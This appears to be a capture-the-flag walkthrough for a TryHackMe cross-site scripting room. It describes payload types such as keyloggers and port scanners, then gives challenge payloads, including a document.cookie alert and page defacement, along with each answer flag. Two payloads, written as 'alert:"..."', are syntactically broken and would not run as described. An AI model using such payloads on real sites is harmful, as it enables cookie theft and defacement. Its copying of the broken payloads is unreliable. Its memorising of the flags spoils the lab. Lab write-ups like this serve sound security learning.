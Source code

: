 >>Remember, cross-site scripting is a vulnerability that can be exploited to execute malicious Javascript on a victim’s machine. Check out some common payloads types used:
```
* Popup's (<script>alert(“Hello World”)</script>) - Creates a Hello World message popup on a users browser.

* Writing HTML (document.write) - Override the website's HTML to add your own (essentially defacing the entire page).

* XSS Keylogger (http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html) - You can log all keystrokes of a user, capturing their password and other sensitive information they type into the webpage.

* Port scanning (http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html) - A mini local port scanner (more information on this is covered in the TryHackMe XSS room).
```
>>XSS-Payloads.com (http://www.xss-payloads.com/) is a website that has XSS related Payloads, Tools, Documentation and more. You can download XSS payloads that take snapshots from a webcam or even get a more capable port and network scanner.

## XSS Challenge

>>The VM attached to this task showcases DOM-Based, Reflected and Stored XSS. Deploy the machine and exploit each type!

```bash
# Use this payload to display the string "Hello" and the flag

<script>alert:"Hello"</script>
ThereIsMoreToXSSThanYouThink

# Use this payload to display the flag 

<script>alert:"window.location.hostname"</script>
ReflectiveXss4TheWin

# Use this html payload to get the flag

<body>This is a payload</body>
HTML_T4gs

# Use this payload to get the flag

<script>alert(document.cookie)</script>
W3LL_D0N3_LVL2

# Use this paylaod to get the flag.

<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
websites_can_be_easily_defaced_with_xss
```

## Answer the questions below
